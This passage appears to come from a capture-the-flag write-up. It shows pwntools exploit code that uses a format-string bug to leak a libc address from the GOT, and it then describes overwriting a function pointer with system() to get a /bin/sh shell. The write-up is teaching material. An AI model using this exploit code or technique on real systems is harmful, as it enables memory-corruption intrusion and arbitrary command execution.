 So we will want to use `%11s` to print the libc address of printf@got out:

```python
# Reset the string
p.sendlineafter(b'6. Exit\n', b'5')

# Append the string
payload = b'%11$s\0\0\0' + p64(libconvert_base + 0x4030) + p32(-22, sign=True)

p.sendlineafter(b'6. Exit\n', b'4')
p.sendafter(b'string: ', payload.ljust(0x400, b'A'))
for i in range(62):
    p.sendlineafter(b'6. Exit\n', b'4')
    p.sendafter(b'string: ', b'A'*0x400)
p.sendlineafter(b'6. Exit\n', b'4')
p.sendafter(b'string: ', b'B'*0x3ff)
p.sendlineafter(b'6. Exit\n', b'4')
p.sendafter(b'string: ', b'C'*(1+len(payload)-4))

# Execute convert
p.sendlineafter(b'6. Exit\n', b'2')
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - libc.sym['printf']
log.info("Libc base: " + hex(libc.address))
```

And we get libc address leak:

![libc-leak.png](images/libc-leak.png)

Very good, let's move on!

### Stage 3: Write system address

We have the libc base address and we can get the system address easily. Now we will want to overwrite an address of array `functions` for convenient use (means just append string `/bin/sh` and choose option 1 or 2 to execute system and get shell). Let's check if the addresses of `functions` has some same bytes or not:

![check-functions-and-system.png](images/check-functions-and-system.png)
